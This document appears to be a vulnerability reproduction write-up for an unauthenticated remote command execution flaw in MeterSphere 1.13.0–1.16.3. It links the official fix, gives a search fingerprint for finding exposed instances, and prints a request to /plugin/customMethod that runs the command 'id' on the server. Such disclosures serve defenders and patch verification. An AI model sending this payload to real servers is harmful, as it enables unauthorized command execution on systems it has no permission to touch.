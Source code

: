 # MeterSphere customMethod remote command execution vulnerability

## Vulnerability Description

On January 5, 2022, the Chuangyu 404 Active Defense Experimental Team discovered a vulnerability in the MeterSphere open source continuous testing platform and provided feedback to the MeterSphere R&D team. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MeterSphere v1.13.0 - v1.16.3</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="MeterSphere"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1641555749774-16f5fa84-eed7-4ec7-8c9d-0daf4085f543.png)

According to the official fix, you can see that the current version of the fix is ​​a deleted code snippet

filterChainDefinitionMap.put("/plugin/**", "anon");

```go
https://github.com/metersphere/metersphere/pull/9140/files
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1641555879489-faa94a48-65aa-4eb5-b116-434b10b0895a.png)

View file **/backend/src/main/java/io/metersphere/controller/PluginController.java**

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1641556024273-44267007-49eb-46c6-b0fd-237b0fad9d74.png)

Send a request packet

```go
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1641559411956-ce8b8be3-71db-4c31-95fa-d75a00adce85.png)